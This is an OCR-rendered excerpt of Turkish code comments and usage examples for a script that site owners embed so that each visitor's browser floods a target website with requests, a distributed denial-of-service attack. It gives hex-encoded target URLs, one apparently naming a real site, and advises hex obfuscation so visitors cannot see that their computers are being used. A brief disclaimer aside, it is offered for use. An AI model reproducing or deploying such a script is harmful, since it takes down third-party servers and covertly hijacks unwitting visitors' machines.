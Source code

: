   // Başkalarının sitesinde kullanmayınız kendi sitenize saldırıp test edip önlemler üretmeyi deneyiniz.<br><br>
  
  Not: Bu scripti eklediğiniz size ait web sitesine giren her kullanıcı hedef siteye saldırır, yani sitenizde şuanda 1000 online olduğunu var sayarsak, karşıdaki sunucu 16gb lık bir ram ile muhtemelen cevap veremeyecek hale gelecek ve sitesi çalışmayacaktır. <br><br>
  
  // şimdilik kullanım dışı, image file atak <br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file<br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file<br><br>
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!<br>
  // şimdilik kullanım dışı, image file atak.<br><br>
 
 

  // # Kullanıma uygun örnekler<br><br>

  // 1-<br>
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.<br><br>


  // 2-<br>
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.<br><br><br><br>

  // 3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.<br><br>
  // örnek: site adresi = https://www.yoursitename.com/index.php?q= <br><br>
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');<br><br>
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.<br><br>

  // # Kullanıma uygun örnekler
